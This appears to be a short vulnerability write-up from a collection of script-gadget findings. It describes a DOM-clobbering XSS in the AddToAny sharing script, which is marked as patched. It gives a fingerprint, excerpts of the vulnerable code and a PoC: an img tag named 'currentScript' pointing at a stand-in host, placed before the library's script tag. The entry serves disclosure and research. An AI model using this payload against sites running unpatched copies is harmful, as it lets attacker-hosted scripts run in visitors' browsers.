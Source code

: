 ## AddToAny

### Meta

+ Library: AddToAny
+ Stars: N/A
+ Fingerprint: `window.hasOwnProperty('a2a_config')`
+ Payload: ```<img src="https://addtoany.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk
+ TheThing: None

### Library

URL:
+ `https://static.addtoany.com/menu/page.js` (patched)

### Vulnerable Code Snippet

```javascript
_ = (d = o.currentScript) && d.src ? d.src : "",
e = d && !d.async && !d.defer,
```

```javascript
a = (t = n.static_server) ? t + "/" : "https://static.addtoany.com/menu/",
p = _ && -1 !== _.split("/")[2].indexOf("addtoany"),
l = (p = (l = !t && p ? _ : a).match(/^[^?#]+\//)) ? p[0] : l,
```

```javascript
var e = l + (t ? "" : "modules/");
c(e + "core" + g + ".js", !0);
```

## PoC

```
<img src="https://addtoany.xxx.xxx" name="currentScript">
<script async src="https://static.addtoany.com/menu/page.js"></script>
```
